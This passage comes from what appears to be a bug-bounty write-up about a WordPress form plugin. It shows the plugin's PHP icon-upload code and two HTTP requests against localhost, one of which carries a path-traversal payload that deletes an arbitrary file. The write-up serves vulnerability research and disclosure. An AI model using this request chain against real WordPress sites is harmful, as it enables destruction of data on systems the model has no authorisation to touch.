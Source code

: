 ```php
class AdminAjax
{
  [...]
  public function iconUpload()
  {
    if (wp_verify_nonce(sanitize_text_field($_REQUEST['_ajax_nonce']), 'bitforms_save')) {
      [...]
      $uploadDirInfo = wp_upload_dir();
      $wpUploadbaseDir = $uploadDirInfo['basedir'];
      $icnDir = $wpUploadbaseDir . DIRECTORY_SEPARATOR . 'bitforms' . DIRECTORY_SEPARATOR . 'icons';
      if (!is_dir($icnDir)) {
        mkdir($icnDir);
      }
```

As you can see, if directory `$icnDir` doesn't exist, it'll create that directory using PHP built-in function `mkdir`. Nice!

With that being said, we can **first create directory `icons` using method `iconUpload`**, then delete any files via method `iconRemove`.

Let's test it again!

```http
POST /wp-admin/admin-ajax.php?action=bitforms_icn_save_setting&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 65
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"src":"anything"}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822165256.png)

```http
POST /wp-admin/admin-ajax.php?action=bitforms_icon_remove&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 65
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"file":"../../../../../../../../../../../var/www/html/test.txt"}
```
